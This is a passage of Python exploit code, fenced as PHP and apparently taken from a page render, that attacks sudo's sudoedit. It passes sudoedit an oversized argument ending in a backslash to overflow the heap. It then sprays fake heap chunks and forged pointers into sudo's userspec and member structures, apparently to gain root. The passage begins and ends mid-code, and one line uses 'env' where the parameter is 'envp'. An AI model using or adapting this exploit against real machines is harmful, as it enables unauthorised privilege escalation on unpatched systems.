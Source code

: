 ```php
        exit(0)

def spawn(filename, argv, envp):
    cargv = (c_char_p * len(argv))(*argv)
    cenvp = (c_char_p * len(env))(*env)
    return spawn_raw(filename, cargv, cenvp)

resource.setrlimit(resource.RLIMIT_STACK, (resource.RLIM_INFINITY, resource.RLIM_INFINITY))

# expect large hole for cmnd size is correct
TARGET_CMND_SIZE = 0x1b50

argv = [ "sudoedit", "-A", "-s", PASSWD_PATH, "A"*(TARGET_CMND_SIZE-0x10-len(PASSWD_PATH)-1)+"\\", None ]

SA = STACK_ADDR_PAGE

ADDR_REFSTR = pack('<Q', SA+0x20) # ref string

ADDR_PRIV_PREV = pack('<Q', SA+0x10)
ADDR_CMND_PREV = pack('<Q', SA+0x18) # cmndspec
ADDR_MEMBER_PREV = pack('<Q', SA+0x20)

ADDR_DEF_VAR = pack('<Q', SA+0x10)
ADDR_DEF_BINDING = pack('<Q', SA+0x30)

OFFSET = 0x30 + 0x20
ADDR_USER = pack('<Q', SA+OFFSET)
ADDR_MEMBER = pack('<Q', SA+OFFSET+0x40)
ADDR_CMND = pack('<Q', SA+OFFSET+0x40+0x30)
ADDR_PRIV = pack('<Q', SA+OFFSET+0x40+0x30+0x60)

# for spraying
epage = [
    'A'*0x8 + # to not ending with 0x00

    # fake def->var chunk (get freed)
    '\x21', '', '', '', '', '', '',
    ADDR_PRIV[:6], '',  # pointer to privilege
    ADDR_CMND[:6], '',  # pointer to cmndspec
    ADDR_MEMBER[:6], '',  # pointer to member

    # fake def->binding (list head) (get freed)
    '\x21', '', '', '', '', '', '',
    '', '', '', '', '', '', '', '',  # members.first
    'A'*0x10 + # members.last, pad

    # userspec chunk (get freed)
    '\x41', '', '', '', '', '', '', # chunk metadata
    '', '', '', '', '', '', '', '',  # entries.tqe_next
    'A'*8 +  # entries.tqe_prev
    '', '', '', '', '', '', '', '',  # users.tqh_first
    ADDR_MEMBER[:6]+'', '', # users.tqh_last
    '', '', '', '', '', '', '', '',  # privileges.tqh_first
    ADDR_PRIV[:6]+'', '', # privileges.tqh_last
    '', '', '', '', '', '', '', '',  # comments.stqh_first

    # member chunk
    '\x31', '', '', '', '', '', '', # chunk size , userspec.comments.stqh_last (can be any)
    'A'*8 + # member.tqe_next (can be any), userspec.lineno (can be any)
    ADDR_MEMBER_PREV[:6], '',  # member.tqe_prev, userspec.file (ref string)
    'A'*8 + # member.name (can be any because this object is not freed)
    pack('<H', 284), '',  # type, negated
```